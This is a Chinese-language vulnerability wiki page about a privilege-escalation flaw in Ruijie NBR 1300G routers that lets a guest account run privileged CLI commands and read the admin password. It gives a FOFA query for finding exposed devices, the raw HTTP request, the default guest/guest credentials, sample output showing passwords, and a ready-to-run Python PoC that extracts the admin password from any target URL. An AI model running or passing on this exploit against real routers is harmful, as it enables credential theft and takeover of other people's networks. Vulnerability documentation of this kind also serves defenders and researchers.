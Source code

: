 # 锐捷NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器

## FOFA

> [!NOTE]
>
> title="锐捷网络 --NBR路由器--登录界面"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ruijie-35.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看流量发现 CLI命令流量

![](http://wikioss.peiqi.tech/vuln/ruijie-36.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包为

```
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码

![](http://wikioss.peiqi.tech/vuln/ruijie-37.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功获取所有用户的账号密码

```
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/ruijie-38.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
